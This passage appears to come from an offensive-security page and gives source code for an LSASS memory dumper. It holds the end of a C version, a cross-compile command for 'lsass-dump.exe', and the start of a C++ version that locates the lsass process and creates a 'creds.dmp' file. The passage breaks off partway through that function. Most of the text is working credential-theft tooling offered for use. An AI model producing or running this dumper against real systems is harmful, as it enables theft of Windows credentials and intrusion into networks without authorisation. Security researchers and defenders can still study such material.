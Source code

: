 ```c
    printf("[+] Successfully dumped lsass.\n");

    return 0;
}
```

Compile the memory dumper.

```
$ x86_64-w64-mingw32-gcc -O2 lsass-dump.c -o lsass-dump.exe \
-ldbghelp -mconsole -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive >/dev/null 2>&1
```

## C++

```cpp
#include <iostream>
#include <windows.h>
#include <errhandlingapi.h>
#include <tlhelp32.h>
#include <dbghelp.h>

#pragma comment(lib, "dbghelp.lib")

DWORD getProcessIdentifer(const char *process_name) {
    HANDLE handle_snapshot;
    PROCESSENTRY32 process_entry;
    DWORD process_id = 0;
    BOOL handle_result;

    handle_snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if(INVALID_HANDLE_VALUE == handle_snapshot)
        return 0;

    process_entry.dwSize = sizeof(PROCESSENTRY32);

    handle_result = Process32First(handle_snapshot, &process_entry);

    while(handle_result) {
        if(strcmp(process_name, process_entry.szExeFile) == 0) {
            process_id = process_entry.th32ProcessID;
            break;
        }
        handle_result = Process32Next(handle_snapshot, &process_entry);
    }

    CloseHandle(handle_snapshot);
    return process_id;
}

void LSASSDump(DWORD process_id) {
    HANDLE lsass_process;
    HANDLE memory_file = CreateFileA("creds.dmp", GENERIC_ALL, FILE_SHARE_READ, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (!memory_file) {
        std::cout << "[!] Error creating dump file! " + GetLastError() << std::endl;
        exit(-1);
    }
    std::cout << "[+] Dump file created successfully!" << std::endl;

```